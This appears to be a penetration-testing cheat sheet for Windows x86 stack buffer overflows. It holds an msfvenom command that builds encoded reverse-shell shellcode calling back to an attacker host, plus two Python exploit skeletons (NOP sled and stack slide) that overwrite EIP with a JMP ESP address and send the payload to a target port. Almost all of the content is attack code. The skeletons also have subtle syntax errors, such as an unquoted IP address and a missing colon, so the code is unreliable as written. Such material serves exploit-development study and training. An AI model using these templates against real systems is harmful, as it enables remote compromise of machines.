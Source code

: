 # Windows Stack Buffer Overflow

## Stack Buffer Overflow

## x86 Stack Buffer Overflow

### x86 Msfvenom Template

```bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.20 LPORT=443 -b "\x00" -e x86/shikata_ga_nai -f c EXITFUNC=thread
```

### x86 Stack Buffer Overflow Skeleton

#### NOP Skeleton

```python
#!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time

from pwn import *
from struct import pack

# Global
target = 10.10.10.10

def exploit():
    # Shellcode in Bytes
    shellcode = (b"<shellcode>")

    # Payload in Bytes
    offset = 1052
    before_eip = b"A"*offset # 1052 A
    eip = pack("<I", <address>) # JMP ESP
    nops = "\x90"*16 # 16 NOPs
    
    payload = before_eip + eip + nops + shellcode
    
    # Socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target, 8080)) # Connect to the target on port 8080
    s.send(payload) # Send the payload
    
    
    
if __name__ == "__main__"
    exploit()
```

#### Stack Slide Skeleton \(Alternative to NOPs\)

```python
#!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time

from pwn import *
from struct import pack

# Global
target = 10.10.10.10

def exploit():
    # Shellcode in Bytes
    shellcode = (b"<shellcode>")

    # Payload in Bytes
    offset = 1052
    before_eip = b"A"*offset # 1052 A
    eip = pack("<I", <address>) # JMP ESP
    # SUB ESP, 0x10
    payload = before_eip + eip + b"\x83\xec\x10" + shellcode
    
    # Socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target, 8080)) # Connect to the target on port 8080
    s.send(payload) # Send the payload
    
    
    
if __name__ == "__main__"
    exploit()
```

